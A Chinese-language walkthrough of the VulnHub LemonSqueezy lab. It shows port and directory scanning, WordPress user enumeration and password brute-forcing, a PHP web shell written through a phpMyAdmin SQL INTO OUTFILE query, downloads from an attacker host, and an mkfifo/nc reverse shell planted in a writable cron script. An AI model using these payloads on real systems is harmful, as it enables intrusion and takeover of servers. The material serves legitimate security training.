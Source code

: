 # LemonSqueezy

> https://download.vulnhub.com/lemonsqueezy/LemonSqueezy.7z

靶场IP：`192.168.32.218`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p 1-65535 -sV  192.168.32.218                                                                                                                                                                                               
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 11:31 EDT
Nmap scan report for 192.168.32.218
Host is up (0.00078s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
MAC Address: 00:0C:29:F6:8C:26 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.60 seconds

```

访问80端口

![image-20220909233308825](../../.gitbook/assets/image-20220909233308825-1675839828076806.png)

爆破web目录

```
┌──(root💀kali)-[~]
└─# dirb http://192.168.32.218                                                                                                                                                                                                        

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Sep  9 11:45:04 2022
URL_BASE: http://192.168.32.218/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.218/ ----
+ http://192.168.32.218/index.html (CODE:200|SIZE:10701)                                                                                                                                                                                   
==> DIRECTORY: http://192.168.32.218/javascript/                                                                                                                                                                                           
==> DIRECTORY: http://192.168.32.218/manual/                                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.218/phpmyadmin/                                                                                                                                                                                           
+ http://192.168.32.218/server-status (CODE:403|SIZE:279)                                                                                                                                                                                  
==> DIRECTORY: http://192.168.32.218/wordpress/                                                                                                                                                                                            
                                                                                                                                                                                                                                           
---- Entering directory: http://192.168.32.218/javascript/ ----
==> DIRECTORY: http://192.168.32.218/javascript/jquery/                                                                                                                                                                                    
                                                                                                                                                                                                                                           
---- Entering directory: http://192.168.32.218/manual/ ----

```

访问：`/wordpress/`

![image-20220910103506222](../../.gitbook/assets/image-20220910103506222-1675839828077808.png)

配置hosts

```
192.168.32.218 lemonsqueezy
```

![image-20220910103720426](../../.gitbook/assets/image-20220910103720426-1675839828077807.png)

wpscan枚举用户

```
wpscan --url http://lemonsqueezy/wordpress --enumerate u
```

```
[i] User(s) Identified:

[+] lemon
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://lemonsqueezy/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] orange
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

wpscan爆破密码

```
wpscan --url http://lemonsqueezy/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames lemon,orange
```

```
[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - orange / ginger 
```

登录 wordpress 后，我们会看到一个草稿帖子，发现有密码：`n0t1n@w0rdl1st!`

![image-20220910104223248](../../.gitbook/assets/image-20220910104223248-1675839828077809.png)

然后我记得在目录扫描期间我们有"`phpmyadmin`"页面，我尝试使用`orange`用户的这个凭据登录到 `phpmyadmin`。

![image-20220910104408097](../../.gitbook/assets/image-20220910104408097-1675839828077810.png)

我们可以看到`orange`密码的哈希值，我试图破解它但没有成功。因此，我使用与用户`orange`相同的哈希对其进行了更改。

![image-20220910104525995](../../.gitbook/assets/image-20220910104525995-1675839828077811.png)

以`leon`用户的身份登录。

![image-20220910104642540](../../.gitbook/assets/image-20220910104642540-1675839828077812.png)

然后我尝试上传易受攻击的插件和外壳但无法成功，似乎我们无法在服务器上写入任何内容，因为它显示临时文件夹丢失。

在 wordpress 之后，我尝试通过运行 SQL 查询来上传 shell。

```
select "<?php echo shell_exec($_GET['cmd']);?>" into outfile '/var/www/html/wordpress/wp-content/uploads/shell.php'
```

```
┌──(root💀kali)-[/tmp]
└─# curl http://192.168.32.218/wordpress/wp-content/uploads/shell.php?cmd=id   
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

下载反弹shell

```
http://192.168.32.218/wordpress/wp-content/uploads/shell.php?cmd=wget%20http://192.168.32.130/shell.php%20-O%201.php
```

下载LinEnum.sh

```
www-data@lemonsqueezy:/var/www/html/wordpress/wp-content/uploads$ wget http://192.168.32.130/LinEnum.sh
<tent/uploads$ wget http://192.168.32.130/LinEnum.sh              
--2022-09-10 12:32:33--  http://192.168.32.130/LinEnum.sh
Connecting to 192.168.32.130:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

LinEnum.sh          100%[===================>]  45.54K  --.-KB/s    in 0s      

2022-09-10 12:32:33 (252 MB/s) - 'LinEnum.sh' saved [46631/46631]

www-data@lemonsqueezy:/var/www/html/wordpress/wp-content/uploads$ chmod +x LinEnum.sh

```

发现一个计划任务

![image-20220910110343135](../../.gitbook/assets/image-20220910110343135-1675839828077813.png)

查看：`logrotate`

```
www-data@lemonsqueezy:/tmp$ cat /etc/logrotate.d/logrotate
cat /etc/logrotate.d/logrotate
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()

```

输入反弹shell

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.32.130 9999 >/tmp/f" > /etc/logrotate.d/logrotate
```

两分钟后，就可以看到建立连接。

![image-20230208150353937](../../.gitbook/assets/image-20230208150353937.png)
